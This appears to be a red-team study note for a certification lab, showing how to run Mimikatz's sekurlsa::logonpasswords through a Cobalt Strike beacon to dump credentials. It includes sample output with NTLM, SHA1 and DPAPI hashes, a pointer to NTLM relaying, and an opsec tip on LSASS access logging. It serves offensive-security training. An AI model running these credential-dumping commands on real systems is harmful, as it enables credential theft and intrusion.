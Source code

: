 
1) Just like using regular [[Mimikatz]], you can use the Cobalt Strike tool to extract [[NetNTLM]] hashes:

```
beacon> mimikatz !sekurlsa::logonpasswords

Authentication Id : 0 ; 579458 (00000000:0008d782)
Session           : Batch from 0
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 8/31/2022 11:49:48 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1105
	msv :
	 [00000003] Primary
	 * Username : jking
	 * Domain   : DEV
	 * NTLM     : 59fc0f884922b4ce376051134c71e22c
	 * SHA1     : 74fa9854d529092b92e0d9ebef7ce3d065027f45
	 * DPAPI    : 0837e40088a674327961e1d03946f5f2
```

Another possible method to obtain NTLM hashes is with an [[NTLM Relaying]] attack.

### ⚠ Opsec

This module will open a read handle to LSASS which can be logged under event 4656.  Use the "Suspicious Handle to LSASS" saved search in Kibana to see them.


### Properties
---
📆 created   {{11-02-2024}} 11:50
🏷️ tags: #redteam #crto 

---

